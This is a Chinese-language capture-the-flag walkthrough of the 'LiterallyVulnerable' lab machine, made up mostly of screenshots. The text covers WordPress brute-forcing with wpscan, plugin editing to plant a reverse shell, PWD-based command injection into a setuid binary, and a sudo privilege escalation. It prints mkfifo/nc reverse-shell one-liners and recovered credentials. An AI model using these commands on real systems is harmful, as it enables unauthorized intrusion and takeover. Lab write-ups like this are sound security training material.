 # LiterallyVulnerable

![image-20200713222221001](assets/LiterallyVulnerable.assets/image-20200713222221001.png)

![image-20200713223445927](assets/LiterallyVulnerable.assets/image-20200713223445927.png)

![image-20200713224443396](assets/LiterallyVulnerable.assets/image-20200713224443396.png)

![image-20200714014817277](assets/LiterallyVulnerable.assets/image-20200714014817277.png)

![image-20200714015246460](assets/LiterallyVulnerable.assets/image-20200714015246460.png)

80

![image-20200714015815871](assets/LiterallyVulnerable.assets/image-20200714015815871.png)

显示不正确，先加个hosts

![image-20200714015859359](assets/LiterallyVulnerable.assets/image-20200714015859359.png)

![image-20200714020013972](assets/LiterallyVulnerable.assets/image-20200714020013972.png)

![image-20200714020129568](assets/LiterallyVulnerable.assets/image-20200714020129568.png)

![4](assets/LiterallyVulnerable.assets/image-20200714020512891.png)

admin用户确认。

利用之前的密码名单尝试暴力

```bash
wpscan --url http://literally.vulnerable/ -e u,vp -P backupPasswords
```

 wpscan

![image-20200714022902910](assets/LiterallyVulnerable.assets/image-20200714022902910.png)

又一个wp

![image-20200714023118484](assets/LiterallyVulnerable.assets/image-20200714023118484.png)



![image-20200714024915017](assets/LiterallyVulnerable.assets/image-20200714024915017.png)



![image-20200714024716629](assets/LiterallyVulnerable.assets/image-20200714024716629.png)



在其中的帖子中发现

![image-20200714024821740](assets/LiterallyVulnerable.assets/image-20200714024821740.png)

看来密码应该是用在这里的

同样的密码名单在65535端口上再次做同样的尝试

![image-20200714024055228](assets/LiterallyVulnerable.assets/image-20200714024055228.png)

```bash
maybeadmin
$EPid%J2L9LufO5
```

登录成功。

![image-20200714030143544](assets/LiterallyVulnerable.assets/image-20200714030143544.png)

在已经发布的页面中查看被密码保护的帖子

![image-20200714030000867](assets/LiterallyVulnerable.assets/image-20200714030000867.png)

一个新的凭证

![image-20200714030503566](assets/LiterallyVulnerable.assets/image-20200714030503566.png)

```bash
notadmin:Pa$$w0rd13!&
```

成功重新登录

![image-20200714030634840](assets/LiterallyVulnerable.assets/image-20200714030634840.png)

登录后台通过修改404提交rshell

![image-20200714031031348](assets/LiterallyVulnerable.assets/image-20200714031031348.png)

![image-20200714031113664](assets/LiterallyVulnerable.assets/image-20200714031113664.png)

报错。尝试修改插件

![image-20200714031256174](assets/LiterallyVulnerable.assets/image-20200714031256174.png)

![image-20200714031315282](assets/LiterallyVulnerable.assets/image-20200714031315282.png)

成功

```bash
http://literally.vulnerable:65535/phpcms/wp-content/plugins/akismet/akismet.php
```

浏览器浏览。在监听端口获得shell

![image-20200714031634455](assets/LiterallyVulnerable.assets/image-20200714031634455.png)

两个用户

![image-20200714031810188](assets/LiterallyVulnerable.assets/image-20200714031810188.png)

![image-20200714033022926](assets/LiterallyVulnerable.assets/image-20200714033022926.png)

分析一下这个二进制程序

![image-20200714033331295](assets/LiterallyVulnerable.assets/image-20200714033331295.png)

![image-20200714033412814](assets/LiterallyVulnerable.assets/image-20200714033412814.png)

尝试运行

![image-20200714033305286](assets/LiterallyVulnerable.assets/image-20200714033305286.png)

所以是抓取了当前路径。echo出来，如果路径指向文件，则能以root越权echo其他用户的文件

同样的我们可以通过伪造目录向这个程序注入命令。

尝试一下

![image-20200714034601720](assets/LiterallyVulnerable.assets/image-20200714034601720.png)

简单的成功注入

再次修改，尝试获得shell，尝试很多种语句，最终确定下面的语句

```bash
export PWD=';rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.110.132 1338 >/tmp/f'
./itseasy
```

![image-20200714035907266](assets/LiterallyVulnerable.assets/image-20200714035907266.png)

![image-20200714035952205](assets/LiterallyVulnerable.assets/image-20200714035952205.png)

成功切换到 john

![image-20200714040204273](assets/LiterallyVulnerable.assets/image-20200714040204273.png)

在目录下枚举

![image-20200714040321106](assets/LiterallyVulnerable.assets/image-20200714040321106.png)

![image-20200714040442975](assets/LiterallyVulnerable.assets/image-20200714040442975.png)

发现john的凭证

```bash
john:YZW$s8Y49IB#ZZJ
```

有凭证之后肯定要查看sudo

![image-20200714040610072](assets/LiterallyVulnerable.assets/image-20200714040610072.png)

html路径权限是www-data权限。

返回之前的shell

通过echo伪造test.html

```bash
echo '#!/bin/bash' > test.html
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.110.132 1339 >/tmp/f' >> test.html
```

![image-20200714041437905](assets/LiterallyVulnerable.assets/image-20200714041437905.png)

增加运行权限

![image-20200714041818532](assets/LiterallyVulnerable.assets/image-20200714041818532.png)

在1339建立监听

我们已经有john的凭证，直接ssh登录。john

```bash
ssh john@192.168.110.135
```

通过运行获得root shell

![image-20200714041910022](assets/LiterallyVulnerable.assets/image-20200714041910022.png)

![image-20200714042132754](assets/LiterallyVulnerable.assets/image-20200714042132754.png)

